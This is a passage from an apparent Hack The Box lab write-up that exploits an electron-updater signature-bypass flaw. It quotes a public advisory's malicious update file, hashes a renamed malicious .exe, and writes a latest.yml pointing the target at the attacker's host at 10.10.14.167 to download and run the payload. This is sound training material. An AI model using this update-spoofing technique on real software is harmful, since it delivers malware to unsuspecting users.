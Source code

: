 # Exploiting Electron Builder

I took a closer look at the PDF. I did some googling around User Acceptance Testing, and found little in the way of an exploit.

Then I googled "electron-builder cve". I found this article: [https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html](https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html)

It suggests a parsing error can lead to a malicious `.exe` being executed by electron. An example malicious update file is provided:

```yaml
version: 1.2.3
files:
  - url: v’ulnerable-app-setup-1.2.3.exe
  sha512: GIh9UnKyCaPQ7ccX0MDL10UxPAAZ[...]tkYPEvMxDWgNkb8tPCNZLTbKWcDEOJzfA==
  size: 44653912
path: v'ulnerable-app-1.2.3.exe
sha512: GIh9UnKyCaPQ7ccX0MDL10UxPAAZr1[...]ZrR5X1kb8tPCNZLTbKWcDEOJzfA==
releaseDate: '2019-11-20T11:17:02.627Z'
```

And a command for generating a sha-512 hash:

```bash
$ shasum -a 512 maliciousupdate.exe | cut -d " " -f1 | xxd -r -p | base64
```

## Trying to Grab File from SMB

This format seems to suggest the `.exe` should already be on the server, the provided 'URL' is actually just a filename. However there's no harm trying to make it download the file from our box first. Let's rename our malicious `.exe` to contain a `'`:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/atom]
└─$ mv heedv1\ Setup\ 1.0.1.exe "heedv1'Setup1.0.1.exe"
```

Then shasum it:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/atom]
└─$ shasum -a 512 heedv1\'Setup1.0.1.exe | cut -d " " -f1 | xxd -r -p | base64
0BsRscpeO3lQvkaP1fqRYWyw3lelkI/2qJ1BsshauD8kJ39nHJKFanTUVpUNRotgKkVljcEy/Is9
U87FIbYrPw==
```

Then create a `latest.yml` file:

```yaml
version: 1.0.1
files:
  - url: http://10.10.14.167/heedv1'Setup1.0.1.exe
  sha512: 0BsRscpeO3lQvkaP1fqRYWyw3lelkI/2qJ1BsshauD8kJ39nHJKFanTUVpUNRotgKkVljcEy/Is9U87FIbYrPw==
  size: 73802
path: heedv1'Setup1.0.1.exe
sha512: 0BsRscpeO3lQvkaP1fqRYWyw3lelkI/2qJ1BsshauD8kJ39nHJKFanTUVpUNRotgKkVljcEy/Is9U87FIbYrPw==
releaseDate: '2021-04-21T11:17:02.627Z'
```
